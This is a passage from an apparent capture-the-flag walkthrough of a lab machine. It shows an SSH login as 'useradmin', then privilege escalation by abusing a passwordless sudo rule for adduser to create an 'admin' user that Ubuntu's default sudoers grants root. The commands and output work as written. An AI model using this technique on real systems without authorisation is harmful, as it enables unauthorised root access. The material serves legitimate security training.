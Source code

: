 ```sh
69267218
76839253
56800775
```
Authentication succeeded
```sh
$ ssh -i id_ed25519 useradmin@10.10.124.180
(useradmin@10.10.124.180) Verification code: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-112-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro
useradmin@manage:~$ 
```
## Privilege escalation
List of  commands the current user `useradmin` can run with sudo without a password.
```sh
useradmin@manage:~$ sudo -l
Matching Defaults entries for useradmin on manage:
    env_reset, timestamp_timeout=1440, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User useradmin may run the following commands on manage:
    (ALL : ALL) NOPASSWD: /usr/sbin/adduser ^[a-zA-Z0-9]+$
```
On Ubuntu systems, creating a user named admin is a particularly effective privilege-escalation technique because of how the operating system handles this account and group by default. During system setup, if no administrative user or group exists, the adduser utility can be used to create one. When the name admin is specified, Ubuntu automatically creates both an admin user and an admin group, and the group is already referenced in the /etc/sudoers configuration. Membership in this group grants full sudo privileges, allowing the new account to execute commands as root without further configuration. By exploiting a sudo rule that allowed running adduser as root without a password, an attacker can simply create an admin user and immediately gain elevated permissions, achieving root access in a single step.

```sh
useradmin@manage:/home/karl$ sudo /usr/sbin/adduser admin
Adding user `admin' ...
Adding new group `admin' (1004) ...
Adding new user `admin' (1004) with group `admin' ...
Creating home directory `/home/admin' ...
Copying files from `/etc/skel' ...
New password: 
Retype new password: 
passwd: password updated successfully
Changing the user information for admin
Enter the new value, or press ENTER for the default
	Full Name []: 
	Room Number []: 
	Work Phone []: 
	Home Phone []: 
	Other []: 
Is the information correct? [Y/n] 
useradmin@manage:/home/karl$ su admin
Password: 
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

admin@manage:/home/karl$ id
uid=1004(admin) gid=1004(admin) groups=1004(admin)
admin@manage:/home/karl$ sudo su
```